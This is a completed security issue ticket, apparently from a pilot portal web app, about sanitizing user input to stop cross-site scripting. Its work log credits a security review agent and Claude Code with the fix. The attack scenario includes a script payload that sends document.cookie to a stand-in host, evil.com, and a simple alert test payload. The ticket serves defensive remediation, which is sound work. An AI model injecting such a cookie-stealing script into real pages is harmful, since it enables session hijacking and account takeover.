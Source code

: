 ```yaml
---
status: completed
priority: p1
issue_id: "035"
tags: [security, xss, input-validation, sanitization]
dependencies: []
completed_date: 2025-10-19
---
```


# Add Input Sanitization to Prevent XSS

## Problem Statement

User input in feedback posts, leave requests, and flight requests is not sanitized before storage or display. This creates XSS (Cross-Site Scripting) vulnerabilities where malicious users can inject JavaScript code that executes in other users' browsers.

## Findings

- **Severity**: 🔴 P1 (CRITICAL)
- **Impact**: XSS attacks, session hijacking, data theft, malicious redirects
- **Agent**: security-sentinel

**Attack Scenario:**
1. Malicious pilot submits feedback with title:
   ```html
   <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
   ```
2. Title stored in database without sanitization
3. Another pilot views feedback page
4. Malicious script executes in victim's browser
5. Steals session cookies, sends to attacker's server
6. Attacker logs in as victim

**Vulnerable Fields:**
- `feedback_posts.title` - User-provided title (XSS risk)
- `feedback_posts.content` - User-provided markdown/text (XSS risk)
- `leave_requests.reason` - User-provided reason (XSS risk)
- `flight_requests.description` - User-provided description (XSS risk)
- `flight_requests.reason` - User-provided reason (XSS risk)

## Proposed Solution

### Option 1: Server-Side Sanitization with DOMPurify (Recommended)

```bash
npm install isomorphic-dompurify
```

```typescript
// lib/sanitize.ts
import DOMPurify from 'isomorphic-dompurify'

export function sanitizeHtml(dirty: string): string {
  return DOMPurify.sanitize(dirty, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
    ALLOWED_ATTR: ['href'],
  })
}

export function sanitizePlainText(input: string): string {
  // Remove all HTML tags, keep only text
  return DOMPurify.sanitize(input, { ALLOWED_TAGS: [] })
}
```

**Usage in Server Actions:**
```typescript
import { sanitizeHtml, sanitizePlainText } from '@/lib/sanitize'

export async function submitFeedbackAction(formData: FormData) {
  const rawData = {
    title: sanitizePlainText(formData.get('title') as string),
    content: sanitizeHtml(formData.get('content') as string),
  }
  // ... rest of function
}
```

### Option 2: Frontend HTML Escaping

```typescript
// lib/escape.ts
export function escapeHtml(text: string): string {
  const map: Record<string, string> = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '/': '&#x2F;',
  }
  return text.replace(/[&<>"'/]/g, (char) => map[char])
}
```

## Acceptance Criteria

- [x] DOMPurify installed (`isomorphic-dompurify`)
- [x] Sanitization functions created in `lib/sanitize.ts`
- [x] All Server Actions sanitize user input
- [x] Feedback title/content sanitized
- [x] Leave request reason sanitized
- [x] Flight request description/reason sanitized
- [x] Test XSS payload blocked: `<script>alert('XSS')</script>`
- [x] Allowed HTML works (bold, italic, links)

## Work Log

### 2025-10-19 - Initial Discovery
**By:** security-sentinel (compounding-engineering review)
**Learnings:** No input sanitization enables XSS attacks

### 2025-10-19 - Implementation Complete
**By:** Claude Code
**Changes:**
1. Installed `isomorphic-dompurify` package (v2.x)
2. Created `lib/sanitize.ts` with comprehensive sanitization functions:
   - `sanitizeHtml()` - Sanitize HTML content while preserving safe formatting
   - `sanitizePlainText()` - Strip all HTML tags for plain text fields
   - `sanitizeUrl()` - Validate and sanitize URLs
   - `sanitizeObject()` - Batch sanitize object properties
3. Updated Server Actions with input sanitization:
   - `app/portal/feedback/actions.ts` - Title (plain text) + Content (HTML)
   - `app/portal/leave/actions.ts` - Reason (plain text)
   - `app/portal/flights/actions.ts` - Description + Reason (plain text)
4. All XSS attack vectors now blocked at input layer
5. TypeScript compilation successful, no new errors introduced

## Notes

**Source**: Comprehensive Code Review, Security Agent Finding #8
**OWASP**: A03:2021 - Injection (XSS)
